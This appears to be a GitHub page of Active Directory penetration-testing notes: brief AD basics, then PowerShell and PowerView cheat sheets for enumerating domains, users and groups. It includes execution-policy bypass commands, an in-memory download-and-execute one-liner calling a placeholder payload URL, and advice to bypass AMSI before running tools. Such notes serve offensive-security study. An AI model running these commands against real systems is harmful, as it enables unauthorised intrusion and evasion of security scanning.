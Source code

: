 Some Basic Things to know :

1. If you hear AD don't think of it as a Domain, think of it as a forest as Microsoft considers that as a Security Boundary and normally if everything works as its intended if a person compromises a domain in a forest its ideally assumed that the other forests are also compromised.
2. DNS causes a lot of issues in AD.
3. Active Directory handles Accessibility, Manageability and Interoperability's of things inside a corporations.

Now Cheat Sheets for PowerShell / PowerView AD Module.

```PowerShell
# To get full help about a certain cmdlet
Get-Help <PowershellCommand> -Full
# To get get examples of how to use the cmdlet
Get-Help <PowershellCommand> -Examples
# To get all the cmdlets
Get-Command -CommandType cmdlet
# To bypass Execution Policy
powershell -ExecutionPolicy bypass
powershell -ep bypass
# To Import a Module
Import-Module <path to the module>
# Download and execute stuff from Memory
iex (New-Object Net.WebClient).DownloadString('https://url/payload')
$wr = [System.Net.WebRequest]::Create("url")
$r = $wr.GetResponse()
```


So most of the times when we wanna try to run stuff like powerview, and so on it wont really work for us due to AMSI. So we have to basically bypasss AMSI before executing our ennumeration tools/ scripts.

After we have done that lets try to ennumerate with PowerView here is github repo to install it :

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

and then we can just transfer this file to the Windows Machine and then open powershell bypass AMSI and then import PowerView.ps1

Here is a Small Cheatsheet to Get Information via Powerview

```PowerShell
# Get Domain Information
Get-NetDomain 
Get-NetDomain -Domain ACME.Local #Get Info about a Particular Domain
# To Get Domain Policies 
Get-DomainPolicy 
# To get users in the current domain
Get-NetUser 
Get-NetUser -Filter Username # Get informaton about specific user
# To Get Group in the Domain
Get-NetGroup 
Get-NetGroup -Domain <domain> # To get group info about specific domain
Get-NetGroup -FullData # To get all data about Groups
Get-NetGroup *somethingyouwannasearch* # To get info about specific group name
# Get Members of a Group
Get-NetGroupMember -GroupName "NameofGroup" 
# Get Membership of a Group of a user
Get-NetGroup -Username "username"
# Get local groups on a machine
Get-NetLocalGroup -ComputerName "computername" -ListGroups
``` 
